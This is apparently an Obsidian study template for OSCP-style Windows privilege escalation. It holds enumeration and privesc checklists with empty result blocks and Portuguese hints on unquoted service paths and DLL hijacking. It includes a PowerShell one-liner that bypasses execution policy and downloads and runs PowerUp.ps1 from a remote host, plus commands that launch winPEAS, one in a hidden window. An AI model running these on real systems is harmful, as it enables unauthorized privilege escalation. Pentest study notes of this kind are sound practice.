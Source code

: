 ```yaml
---
icon: 🗒
target:
- ""
createdAt: "2025-02-09"
imageNameKey: nota_local_machine_enum_for_maria
tags: 
NoteRel:
---
```

## Local Machine enumeration Checklist
- [ ] Username, hostname and privileges
- [ ] Groups Memberships of the current user
- [ ] Existing users and groups
- [ ] Operating System, version, arch and security updates
- [ ] Network information
- [ ] installed Applications x64 and x86
- [ ] Running Process
- [ ] Sensitive File Search
- [ ] PowerShell History and Transcript
- [ ] Powershell Env Variables
- [ ] Schedule tasks
- [ ] Services Running

## Privesc Checklist
- [ ] Installed softwares vulnerabilities
- [ ] Schedule Tasks
- [ ] Services Running
- [ ] WinPeas
- [ ] Bloodhound
- [ ] DLL Hijacking
- [ ] winlogon
- [ ] putty

## References
[Windows Privilege Escalation - Situation Awareness](obsidian://open?vault=OSCP-Study-Notes&file=Windows%20Privilege%20Escalation%2FSituational%20Awareness)
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#windows-version-and-configuration

## Initial executes - Tools Automated

### Winpeas
> cmd
```cmd
wmic process call create "cmd.exe /c C:\temp\winpeas.exe > C:\temp\winpeas.txt"
```

>powershell
```powershell
Start-Process -FilePath "C:\temp\winpeas.exe" -ArgumentList " > C:\temp\output.txt" -WindowStyle Hidden -NoNewWindow
```

### Powerup
```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/wintools/PowerUp.ps1'); Invoke-AllChecks"
```

# Enumeration for (USERNAME)
## hostname and username
```js


```

## User Privileges
```


```

## Group memberships
```js



```

## Sensitive Files By User and Group
```

```

```

```

## Powershell History and Transcript
```js


```

## Powershell Env Variables
```js


```

## Find-LocalAdmins
```

```

## Services Running
- Procura serviços que utilizam executaveis cujo temos permissões de acesso
- Procurar por serviços que estão em diretórios cujo temos permissões de acesso.
- utilizar PowerUp.ps1 para automatizar processo e fazer método manual.
```

```

## Schedule Tasks
- Procurar por tasks cujo o PathName tenha espaço e não tenha aspas
- Procurar por tasks cujo o binário temos permissões de acesso
- Procurar por tasks cujo o binário está num diretório que temos permissão
- Usar powerup.ps1 para automatizar
```

```



# System Enumeration 
## Existing Users and Groups

### Users
```js





```

### Groups
```js


```

## System SO, info, version, arch
```js



```

## Security Patches installed
```js


```

## Network Information
```js


```

```js

```
## Installed Applications
#### Apps x86
```js

```
#### Apps x64
```js
   

```

## Running Process
```js

```

## DLL Hijacking
- Se for possível, baixar o executavel do software e procurar localmente por DLLs vulneraveis.
- Procurar por arquivos de logs de software
- Procurar nome do software na internet e identificar DLLs hijacking conhecidas

```

```
